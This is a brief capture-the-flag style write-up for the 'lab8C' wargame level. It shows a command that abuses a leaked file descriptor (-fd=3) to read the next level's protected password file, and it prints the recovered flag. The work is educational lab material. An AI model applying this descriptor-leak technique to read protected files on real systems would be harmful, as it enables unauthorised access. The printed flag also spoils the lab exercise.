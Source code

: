 # lab8C
> After the first three standard file descriptors, each additional file descriptor will be increased by one.(e.g. 3, 4, 5, etc.). 
> http://www.phearless.org/istorija/razno/fdleak.txt

### Solution
```bash
lab8C@warzone:/levels/lab08$ ./lab8C -fn=/home/lab8B/.pass -fd=3
"<<<For security reasons, your filename has been blocked>>>" is lexicographically equivalent to 
"3v3ryth1ng_Is_@_F1l3"
```

### Description
File descriptor: 
```sh
fd = 3
```
bypasses:
```c
if(fd1 == 0 || fd2 == 0)
	{
		printf("Invalid fd argument.\n");
		printf("(We're still fixing some bugs with using STDIN.)\n");
		printf("Usage: %s {-fn=<filename>|-fd=<file_descriptor>} {-fn=<filename>|-fd=<file_descriptor>}\n", argv[0]);
		return EXIT_FAILURE;
	}
```

Duplication:
```sh
lab8C@warzone:/levels/lab08$ echo 'ABCDE_123' > /var/tmp/abc2.txt && ./lab8C -fn=/var/tmp/abc2.txt -fd=3
"ABCDE_123" is lexicographically equivalent to "ABCDE_123"
```